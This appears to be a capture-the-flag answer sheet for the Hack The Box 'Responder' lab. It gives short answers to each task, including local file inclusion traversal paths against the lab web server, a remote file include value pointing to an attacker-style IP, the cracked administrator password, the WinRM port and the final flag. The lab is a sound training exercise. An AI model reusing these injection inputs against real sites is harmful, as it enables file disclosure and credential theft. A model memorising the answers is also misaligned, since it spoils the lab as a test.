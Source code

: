 # Responder

> Task 1 - When visiting the web service using the IP address, what is the domain that we are being redirected to?

```
unika.htb
```

> Task 2 -  Which scripting language is being used on the server to generate webpages?

```
php
```

> Task 3 - What is the name of the URL parameter which is used to load different language versions of the webpage?

```
page
```

> Task 4 - Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

#### Output
```
http://unika.htb/?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

> Task 5 - Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```
//10.10.14.6/somefile
```

> Task 6 -  What does NTLM stand for?

```
New Technology LAN Manager
```

> Task 7 -  Which flag do we use in the Responder utility to specify the network interface?

```
-I
```

> Task 8 - There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```
john the ripper
```

> Task 9 -  What is the password for the administrator user?

```
badminton
```

> Task 10 - We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```
5985
```

> Submit root flag

#### Output
```
# Using LFI
http://unika.htb/?page=../../../../../../../../users/mike/Desktop/flag.txt
```

```
HTB{ea81b7afddd03efaa0945333ed147fac}
```

